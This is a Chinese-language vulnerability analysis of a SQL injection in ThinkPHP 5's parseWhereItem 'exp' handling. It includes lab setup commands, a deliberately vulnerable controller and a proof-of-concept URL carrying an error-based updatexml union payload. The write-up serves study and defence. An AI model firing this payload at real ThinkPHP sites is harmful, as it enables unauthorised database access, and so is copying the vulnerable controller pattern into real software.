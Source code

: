 Thinkphp5 全版本
================

一、漏洞简介
------------

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（ **select**
方法注入）。次漏洞存在于 **Mysql** 类的 **parseWhereItem**
方法中。由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL**
语句，导致 **SQL注入漏洞** 的产生。

二、漏洞影响
------------

ThinkPHP5全版本

三、复现过程
------------

### 漏洞环境

通过以下命令获取测试环境代码：

    composer create-project --prefer-dist topthink/think=5.0.10 tpdemo

将 **composer.json** 文件的 **require** 字段设置成如下：

    "require": {
        "php": ">=5.4.0",
        "topthink/framework": "5.0.10"
    },

然后执行 `composer update` ，并将
**application/index/controller/Index.php** 文件代码设置如下：

    <?php
    namespace app\index\controller;

    class Index
    {
        public function index()
        {
            $username = request()->get('username');
            $result = db('users')->where('username','exp',$username)->select();
            return 'select success';
        }
    }

在 **config/database.php** 文件中配置数据库相关信息，并开启
**config/app.php** 中的 **app\_debug** 和 **app\_trace**
。创建数据库信息如下：

    create database tpdemo;
    use tpdemo;
    create table users(
        id int primary key auto_increment,
        username varchar(50) not null
    );
    insert into users(id,username) values(1,'mochazz');

### poc

    http://0-sec.org:8000/index/index/index?username=) union select updatexml(1,concat(0x7,user(),0x7e),1)#

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app\_debug** 是无法看到
**SQL** 报错信息的）

![1.png](resource/Thinkphp5全版本sql注入漏洞/media/rId26.png)

### 漏洞分析

由于官方根本不认为这是一个漏洞，而认为这是他们提供的一个功能，所以官方并没有对这个问题进行修复。但笔者认为这里的数据过滤还是存在问题的，所以我们还是来分析分析这个漏洞。

程序默认调用 **Request** 类的 **get** 方法中会调用该类的 **input**
方法，但是该方法默认情况下并没有对数据进行很好的过滤，所以用户输入的数据会原样进入框架的
**SQL** 查询方法中。首先程序先调用 **Query** 类的 **where** 方法，通过其
**parseWhereExp** 方法分析查询表达式，然后再返回并继续调用 **select**
方法准备开始构建 **select** 语句。

![2.png](resource/Thinkphp5全版本sql注入漏洞/media/rId28.png)

上面的 **\$this-\>builder** 为 **\\think\\db\\builder\\Mysql** 类，该类继承于 **Builder** 类，所以接着会调用 **Builder** 类的
**select** 方法。在 **select** 方法中，程序会对 **SQL**
语句模板用变量填充，其中用来填充 **%WHERE%**
的变量中存在用户输入的数据。我们跟进这个 **where**
分析函数，会发现其会调用生成查询条件 **SQL** 语句的 **buildWhere**
函数。

![3.png](resource/Thinkphp5全版本sql注入漏洞/media/rId29.png)

继续跟进 **buildWhere** 函数，发现用户可控数据又被传入了
**parseWhereItem** where子单元分析函数。我们发现当操作符等于 **EXP**
时，将来自用户的数据直接拼接进了 **SQL** 语句，最终导致了
**SQL注入漏洞** 。

![4.png](resource/Thinkphp5全版本sql注入漏洞/media/rId30.png)

### 漏洞修复

未修复。

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![5.png](resource/Thinkphp5全版本sql注入漏洞/media/rId33.png)

参考链接
--------

> https://github.com/Mochazz/ThinkPHP-Vuln
